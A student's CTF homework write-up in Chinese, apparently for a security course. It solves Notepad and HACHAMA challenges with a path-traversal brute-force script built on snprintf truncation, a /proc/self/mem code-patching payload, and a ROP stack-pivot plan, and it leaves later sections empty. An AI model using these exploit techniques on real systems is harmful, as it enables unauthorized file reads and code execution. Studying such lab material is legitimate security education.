



# HW3 Writeup

- 學號：`109550206`

## Notepad-Stage1

- Flag：`flag{Sh3l1cod3_but_y0u_c@nnot_get_she!!}`

### 解題流程與思路
**解題過程：**
1. 看 source code 會發現，path 附近非常可疑，然後會發現 snprintf 會限制組成字串的長度，透過這個特性可以砍掉後綴的 '.txt'，然後還有一個前綴，這裡大膽猜測會是一個 '/' 結尾的路徑，因此只要有夠多的 '../' 就可回到跟目錄，接著調整 '../', './' 的無意義路徑數量，即可剛好砍掉 .txt，等於他會去開我們想開的任意檔案。
    ```cpp
    char path[128];
    //strcpy(path, res.res);
    snprintf(path, sizeof(path), "%s%s.txt",res.res, notename);
    //char rpath[128];
    //realpath(path, rpath);
    //puts(rpath);
    ```
2. 即可開出 /flag_user，暴力 try 一下，就會冒出來。詳見 stage1_col.py。
    ```python
    notename1 = b'../../../../../../flag_user'
    notename2 = b'../../../../../../../flag_user'

    for i in range(30, 100):
        rvalue = r.recvuntil(b'> ')
        print(rvalue.decode())
        # show note
        r.sendline(b'5')
        r.recvuntil(b'Note Name: ')
        r.sendline(b'./' * i + notename1)
        r.recvuntil(b'Offset: ')
        r.sendline(b'0')

        rvalue = r.recvuntil(b'> ')
        print(rvalue.decode())
        # show note
        r.sendline(b'5')
        r.recvuntil(b'Note Name: ')
        r.sendline(b'./' * i + notename2)
        r.recvuntil(b'Offset: ')
        r.sendline(b'0')
    ```

**取得 flag 的畫面：**


## Notepad-Stage2

- Flag：`flag{why_d0_y0u_KnoM_tH1s_c0WW@nd!?}`

### 解題流程與思路
**解題過程：**
1. 首先想到可以讀 /proc/self/maps 得知記憶體狀態，後來發現 /proc/mem 可以對記憶體進行寫入，且不會受限於 proc/self/maps 所呈現的權限問題，而是完整的記憶體都能寫。

2. 但是透過 edit note 成功改 text 後一直撞到 b'Segmentation fault\n'。想到最簡單的蓋法，就是將原本的 request code 改成 8787 後，再讀完後去 call write syscall 寫回來。
    ```python
    offset = 0x1606
    code = b'\xc7\x85\x40\xfe\xff\xff\x87\x87\x00\x00'
    editnote(mem_name, base+offset, code)

    offset = 0x16b9
    code = asm('''
    mov rsi, [rbp-0x110]
    mov rdi, 0x1
    mov rdx, 0x104
    mov rax, 0x1
    syscall
    ''')
    ```
3. 後來嘗試使用裡面原本有的 puts 來印，也是印不出來，但確實沒有印出 Login Success，再經過神奇的 offset 調整就出來了 (很後面才試到)。

4. 詳細嘗試見 stage2_sol.py。

**取得 flag 的畫面：**


## Notepad-Stage3

- Flag：``

### 解題流程與思路
**解題過程：**
1. 一些解 stage 2 時與 stage 3 應該比較相關的東西。
2. 透過 /proc/$pid/cmdline 可以得知該 /proc 的 執行時指令樣貌，稍加爆搜一 pid 可以找到執行 backend 相關的 binary 再透過 show note 可以將其 dump 下來。
3. 詳細嘗試見 stage2_sol.py。

**取得 flag 的畫面：**

## HACHAMA

- Flag：`'flag{https://www.youtube.com/watch?v=qbEdlmzQftE&list=PLQoA24ikdy_lqxvb6f70g1xTmj2u-G3NT&index=1}`

### 解題流程與思路
**解題過程：**
1. 一開始以為就很裸的 ROP 且，跑起來確實可以 leak 到資訊雖然能用的很短。但細看發現其實都 call 0x30 應該沒得 leak 才對，後來仔細去看才看懂，是在 name 輸入滿 20 個字元，於 cat 時會 overflow 蓋到 n2，因此實際是讀 ord('a')。

2. 接著透過 leak 的資訊可以輕易找到 main、__libc_main_start，這樣 base 都有了，於 libc 可以找到 call syscall 所需要的所有參數 pop rax, rdx, rdi, rsi, syscall。另外要確保 canary 的正確。

3. 可用範圍很小直覺想到是 stack pivot，一開始想於前面不能用的 0x38 先寫好 rop，再透過 rbp 指好 stack 使剛好其接在其前面，但這樣實際連續能用的也只有 0x38 + 0x18 - 0x8 (for read)，(0x8 rbp, 0x8 canary)，因為沒有 pop rdx ; ret 所以這個方案不可行。

4. 後想說那就接一長串再指過用，最後指過去跟上面一樣想法，只是會先往後多接幾次 0x38 再往前接，但過程中撞到多次不同狀況的 crash (蓋掉奇怪的東西)。

5. 後來發現 read 有一個神奇的地方可以跳，原本應該是沒有 pop rdx ; ret 可以用，但可以用 pop rax ; ret，再加上要跳 read 剛好是 0x18 夠用，接著就可以改 read 值，爆改一長串，就是一般的 rop 了。
    ```
        1454:       48 8b 05 25 2d 00 00    mov    rax,QWORD PTR [rip+0x2d25]        # 4180 <n2>
        145b:       48 89 c2                mov    rdx,rax
        145e:       48 8d 45 c0             lea    rax,[rbp-0x40]
        1462:       48 89 c6                mov    rsi,rax
        1465:       bf 00 00 00 00          mov    edi,0x0
        146a:       e8 f1 fc ff ff          call   1160 <read@plt>
    ```

**取得 flag 的畫面：**


## UAF++

- Flag：``

### 解題流程與思路
**解題過程：**


**取得 flag 的畫面：**

